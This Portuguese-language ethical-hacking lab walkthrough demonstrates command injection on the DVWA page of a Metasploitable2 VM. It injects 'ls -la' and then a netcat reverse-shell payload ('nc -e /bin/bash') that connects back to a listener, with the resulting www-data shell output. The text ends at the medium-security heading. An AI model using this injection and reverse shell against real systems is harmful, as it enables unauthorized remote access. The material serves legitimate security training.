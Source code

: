 # Command Injection

Esse exercício é realizado na VM do metasploit2. 
- Após iniciar a VM, abrir on endereço IP da VM em um browser
- Selecionar o botão **Command Execution**

![command execution](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/74d17509f3dfd75aa6f5ac594284f5f19b786f24/7%20-%20websites/ci_1.png)

## Segurança baixa

Para executar o camando ping basta entra o IP desejado e clicar em *submit*

![ping](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/74d17509f3dfd75aa6f5ac594284f5f19b786f24/7%20-%20websites/ci_2.png)

Em seguida obtermos o resultado:

![ping resultado](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/74d17509f3dfd75aa6f5ac594284f5f19b786f24/7%20-%20websites/ci_3.png)

**A questão:** É possivel injetar comando 'alienígêna' no prompt? 
- Usando o separado ';' injetamos o comando 'ls -la'

  `192.168.1.10; ls -la`

  ![injeção de ls -la](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/74d17509f3dfd75aa6f5ac594284f5f19b786f24/7%20-%20websites/ci_4.png)

- Obtemos o seguinte resultado:

  ![injeção de ls -la resultado](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/74d17509f3dfd75aa6f5ac594284f5f19b786f24/7%20-%20websites/ci_5.png)

Assim, é possível injetar umcomando malicioso no prompt.
- Para obter um sessão netcat com o alvo, iniciamos o netcat em modo listener em nossa máquina.

  `nc -lvp 12345` - onde 12345 é a porta que seleciomos para a escuta.
  ```
  └─$ nc -lvp 12345
  listening on [any] 12345 ...
  ```

- No prompt da página web, injetamos o comando netcat com a mesma porta do listener.

  `192.168.1.10; nc -e /bin/bash 192.168.1.10 12345`

  ![injeção netcat](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/74d17509f3dfd75aa6f5ac594284f5f19b786f24/7%20-%20websites/ci_6.png)

- Em nosso terminal obtemos uma conexão com o VM através do netcat.
  ```
  connect to [192.168.1.10] from (UNKNOWN) [192.168.1.33] 49007
  
  whoami
  www-data
  
  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  
  groups
  www-data
  
  ls -la
  total 20
  drwxr-xr-x  4 www-data www-data 4096 May 20  2012 .
  drwxr-xr-x 11 www-data www-data 4096 May 20  2012 ..
  drwxr-xr-x  2 www-data www-data 4096 May 20  2012 help
  -rw-r--r--  1 www-data www-data 1509 Mar 16  2010 index.php
  drwxr-xr-x  2 www-data www-data 4096 May 20  2012 source
  ```
## Segurança média
